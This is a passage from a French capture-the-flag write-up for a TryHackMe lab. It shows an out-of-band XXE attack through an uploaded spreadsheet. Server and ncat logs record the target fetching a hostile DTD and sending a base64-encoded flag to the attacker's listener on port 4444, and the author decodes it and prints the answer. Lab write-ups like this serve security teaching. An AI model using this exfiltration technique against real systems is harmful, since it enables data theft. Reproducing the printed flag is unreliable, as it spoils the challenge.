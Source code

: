 On écoute sur le port 4444 pour récuperer la réponse.   

![page31](./Task1-31.png)

On envoie notre fichier test.xlsx

```bash
10.10.6.183 - - [03/Oct/2021 19:15:03] "GET /sp.dtd HTTP/1.0" 200 -

Ncat: Connection from 10.10.6.183.
Ncat: Connection from 10.10.6.183:49776.
GET /e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo= HTTP/1.0
Host: 10.9.228.66:4444
Connection: close
```

On récupère le résultat en base64.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=' | base64 -d
{d6b22cb3e37bef32d800105b11107d8f}
```

On décode le résultat est on a notre réponse.  

La réponse est : {d6b22cb3e37bef32d800105b11107d8f}   

## RCE ##

** First RCE flag **
